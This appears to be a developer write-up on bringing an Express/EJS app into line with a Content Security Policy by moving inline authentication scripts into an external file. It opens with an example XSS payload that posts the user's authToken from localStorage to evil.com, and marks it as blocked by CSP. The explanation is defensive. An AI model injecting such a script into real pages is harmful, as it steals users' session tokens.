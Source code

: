 ```html
<!-- XSS Attack Example (BLOCKED by CSP) -->
<script>
	// Malicious code injected by attacker
	fetch('https://evil.com/steal', {
		method: 'POST',
		body: localStorage.getItem('authToken'),
	});
</script>
```

**Before our fix, authentication views had inline scripts:**

```html
<!-- This was BLOCKED by CSP -->
<script>
	function login() {
		// Authentication logic here
	}
	document.getElementById('login-form').addEventListener('submit', login);
</script>
```

### ✅ **How We Fixed It**

#### **Step 1: Created External JavaScript Files**

```javascript
// public/auth.js (NEW FILE)
function switchTab(tab) {
	// Tab switching logic
}

document.addEventListener('DOMContentLoaded', function () {
	// Form handlers and initialization
});
```

#### **Step 2: Added Static File Serving**

```typescript
// src/index.ts
app.use(express.static('public')); // Serve files from /public directory
```

#### **Step 3: Updated EJS Templates**

```html
<!-- BEFORE (CSP Violation) -->
<script>
	// Inline JavaScript code here
</script>

<!-- AFTER (CSP Compliant) -->
<script src="/auth.js"></script>
```
